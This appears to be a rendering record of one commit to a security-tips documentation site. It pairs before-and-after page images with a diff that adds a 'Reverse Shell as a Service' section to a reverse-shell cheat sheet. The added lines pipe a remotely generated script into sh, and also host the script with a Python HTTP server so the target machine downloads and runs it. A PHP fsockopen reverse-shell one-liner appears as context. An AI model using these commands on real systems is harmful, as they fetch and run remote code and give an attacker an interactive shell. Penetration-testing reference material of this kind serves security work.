

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/reverse-shell.md, in a window 1280 px wide and 900 px high, scrolled down 2318 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add Reverse Shell As A Service

````diff
--- a/docs/reverse-shell.md
+++ b/docs/reverse-shell.md
@@ -122,6 +122,30 @@ php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
 ```
 
 
+### Reverse Shell as a Service
+
+This website generates a `bash` script with multiple reverse shell.
+It detects available tools and runs with the correct payload.
+
+
+```bash
+curl https://resh.now.sh/{IP}:{PORT} | sh
+```
+
+You can also copy the script locally and expose to the server using a Python
+HTTP server:
+
+```bash
+# On your machine
+cd www
+curl https://resh.now.sh/{IP}:{PORT} > x
+python -m http.server
+
+# On the remote machine
+curl http://{IP}/x | sh
+```
+
+
 ## Forward shell
 
 If the remote server cannot contact your local machine, it's still possible to
````
